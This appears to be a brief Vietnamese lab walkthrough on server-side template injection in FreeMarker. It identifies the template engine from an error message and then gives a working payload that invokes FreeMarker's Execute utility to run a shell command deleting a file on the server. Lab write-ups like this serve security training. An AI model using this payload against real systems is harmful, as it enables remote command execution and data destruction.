



## Server-side template injection using documentation

1. Khi edit template gọi đến 1 trường không tồn tại trong product object -> Error message trả về cho thấy lab sử dụng template `FreeMaker`

2. Sau khi xác định được template, tìm documentation về freemaker và có được đoạn code để thực thi những system command

3. Dùng payload sau để xóa file morale.txt 
- Payload: `<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm /home/carlos/morale.txt")}`

